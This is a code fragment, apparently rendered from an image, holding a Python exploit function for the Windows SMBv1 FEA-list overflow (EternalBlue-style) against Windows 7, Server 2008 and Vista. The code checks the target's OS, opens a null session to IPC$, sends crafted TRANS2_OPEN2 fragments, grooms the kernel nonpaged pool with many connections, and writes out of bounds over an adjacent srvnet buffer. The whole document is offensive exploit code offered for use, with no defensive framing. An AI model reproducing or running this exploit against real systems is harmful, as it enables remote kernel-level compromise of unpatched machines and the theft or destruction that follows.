 ```


def exploit(target, shellcode, numGroomConn):
	# force using smb.SMB for SMB1
	conn = smb.SMB(target, target)

	# can use conn.login() for ntlmv2
	conn.login_standard('', '')
	server_os = conn.get_server_os()
	print('Target OS: '+server_os)
	if not (server_os.startswith("Windows 7 ") or (server_os.startswith("Windows Server ") and ' 2008 ' in server_os) or server_os.startswith("Windows Vista")):
		print('This exploit does not support this target')
		sys.exit()
	

	tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$')
	
	# The minimum requirement to trigger bug in SrvOs2FeaListSizeToNt() is SrvSmbOpen2() which is TRANS2_OPEN2 subcommand.
	# Send TRANS2_OPEN2 (0) with special feaList to a target except last fragment
	progress = send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)
	# we have to know what size of NtFeaList will be created when last fragment is sent

	# make sure server recv all payload before starting allocate big NonPaged
	#sendEcho(conn, tid, 'a'*12)

	# create buffer size NTFEA_SIZE-0x1000 at server
	# this buffer MUST NOT be big enough for overflown buffer
	allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)
	
	# groom nonpaged pool
	# when many big nonpaged pool are allocated, allocate another big nonpaged pool should be next to the last one
	srvnetConn = []
	for i in range(numGroomConn):
		sk = createConnectionWithBigSMBFirst80(target)
		srvnetConn.append(sk)

	# create buffer size NTFEA_SIZE at server
	# this buffer will be replaced by overflown buffer
	holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)
	# disconnect allocConn to free buffer
	# expect small nonpaged pool allocation is not allocated next to holeConn because of this free buffer
	allocConn.get_socket().close()

	# hope one of srvnetConn is next to holeConn
	for i in range(5):
		sk = createConnectionWithBigSMBFirst80(target)
		srvnetConn.append(sk)
		
	# send echo again, all new 5 srvnet buffers should be created
	#sendEcho(conn, tid, 'a'*12)
	
	# remove holeConn to create hole for fea buffer
	holeConn.get_socket().close()

	# send last fragment to create buffer in hole and OOB write one of srvnetConn struct header
	send_trans2_second(conn, tid, feaList[progress:], progress)
	recvPkt = conn.recvSMB()
	retStatus = recvPkt.getNTStatus()
	# retStatus MUST be 0xc000000d (INVALID_PARAMETER) because of invalid fea flag
```